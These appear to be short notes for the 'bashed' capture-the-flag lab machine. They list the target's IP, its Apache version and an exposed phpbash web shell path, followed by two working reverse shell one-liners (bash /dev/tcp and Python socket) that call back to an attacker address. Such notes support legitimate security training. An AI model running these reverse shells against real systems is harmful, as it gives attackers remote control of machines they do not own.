 # bashed

- ip: 10.10.10.68
- **80/tcp**: `Apache httpd 2.4.18 (Ubuntu)`
- http://10.10.10.68/dev/phpbash.php

- `bash -i >& /dev/tcp/10.10.14.20/9090 0<&1`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


